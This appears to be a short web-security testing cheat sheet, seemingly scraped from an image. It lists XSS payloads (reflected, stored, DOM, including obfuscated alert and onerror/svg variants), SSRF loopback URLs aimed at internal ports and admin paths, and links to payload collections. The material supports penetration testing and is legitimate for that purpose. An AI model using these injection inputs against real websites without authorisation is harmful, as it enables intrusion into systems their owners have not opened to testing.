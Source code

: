 Github:

https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/SQL%20Injection/#insert-statement-on-duplicate-key-update
# XSS

##### Reflected

```
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>\u0061lert('22')</script>
```
##### Stored

```
<img src=x onerror=alert('XSS');>
"><img src=x onerror=alert('XSS');>
<><img src=1 onerror=alert(1)>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
<svgonload=alert(1)>
"><svg/onload=alert(/XSS/)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;
```

##### DOM

```
#"><img src=/ onerror=alert(2)>
```

##### Blind

https://github.com/LewisArdern/bXSS

Github:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

# SSRF

##### In-Band

```
http://localhost/admin
http://localhost:80
http://localhost:443
http://localhost:22
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```
